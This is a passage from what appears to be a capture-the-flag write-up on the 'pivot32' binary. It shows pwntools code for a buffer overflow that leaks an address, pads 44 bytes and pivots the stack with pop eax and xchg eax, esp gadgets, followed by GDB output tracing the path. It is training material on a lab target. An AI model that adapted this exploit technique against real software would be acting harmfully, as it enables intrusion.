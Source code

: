 ```python
from pwn import *
import re

e = ELF('./pivot32')
p = e.process()

recvd = p.recv().decode()

# address where longer chain is written
addr = re.findall('0x[0-9a-f]{8}', recvd)[0]
addr = int(addr, 16)
addr = p32(addr)

# padding for buffer overflow
padding = b'A' * 44

# gadgets
# pop eax ; ret
pop_eax = p32(0x080488c0)

# xchg eax, esp ; ret
xchg = p32(0x080488c2)
```

The short ROP chain is built such that after returning from `pwnme`, the `pop_eax` gadget is executed and then the exchange gadget is called.

```python
# short chain for overflowing stack and pivoting stack to longer chain
short = padding
short += pop_eax
short += addr
short += xchg
```

When `pop_eax` is executed, the top of the stack is the address where longer chain is saved, therefore it pops that value into the `EAX` register. Now `EAX` contains the address of long chain. The `xchg` gadget swaps the values and now `ESP` contains the required address. The longer chain is currently set to some junk value like `0xdeadbeef`. We can check this script by running this script and attaching GDB.

Breaking at `ret` of `pwnme` shows the path we are going to follow -

```bash
 ► 0x804889f <pwnme+173>           leave
   0x80488a0 <pwnme+174>           ret
    ↓
   0x80488c0 <usefulGadgets>       pop    eax
   0x80488c1 <usefulGadgets+1>     ret

   0x80488c2 <usefulGadgets+2>     xchg   eax, esp
   0x80488c3 <usefulGadgets+3>     ret
```

